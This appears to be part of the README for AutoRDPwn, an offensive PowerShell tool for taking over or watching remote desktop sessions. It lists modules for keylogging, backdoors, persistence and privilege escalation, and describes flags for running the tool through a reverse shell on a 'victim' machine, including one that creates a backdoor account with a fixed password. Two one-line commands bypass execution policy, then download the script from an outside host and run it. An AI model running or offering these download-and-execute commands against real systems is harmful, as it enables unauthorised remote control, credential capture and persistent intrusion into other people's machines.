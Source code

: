 • Improved remote execution (internet connection is no longer necessary on the victim)

• New section available: Backdoors and persistence

• New module available: Remote Keylogger

• New section available: Privilege escalation

• New module available: Obtain information from the operating system

• New module available: Search vulnerabilities with Sherlock

• New module available: Escalate privileges with PowerUp

• New section available: Other Modules

• New module available: Execute an external script

*The rest of the changes can be consulted in the CHANGELOG file


# Use
This application can be used locally, remotely or to pivot between teams.

When used remotely in a reverse shell, it is necessary to use the following parameters:

**-admin / -noadmin** -> Depending on the permissions we have, we will use one or the other

**-nogui** -> This will avoid loading the menu and some colors, guaranteed its functionality

**-lang** -> We will choose our language (English, Spanish, French, German, Italian, Russian or Portuguese)

**-option** -> As with the menu, we can choose how to launch the attack

**-shadow** -> We will decide if we want to see or control the remote device

**-createuser** -> This parameter is optional, the user AutoRDPwn (password: AutoRDPwn) will be created on the victim machine


**Local execution on one line:**
```
powershell -ep bypass "cd $ env: temp; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"
```

**Example of remote execution on a line:**
```
powershell -ep bypass "cd $ env: temp; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1 -admin -nogui -lang English -option 4 -shadow control -createuser"
```


**The detailed guide of use can be found at the following link:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Screenshots
![autordpwn_en1](https://user-images.githubusercontent.com/34335312/63512839-06136500-c4e5-11e9-84ec-3a00b76f3ca8.png)
![autordpwn_en2](https://user-images.githubusercontent.com/34335312/63512840-06136500-c4e5-11e9-8289-c3d06c926061.png)
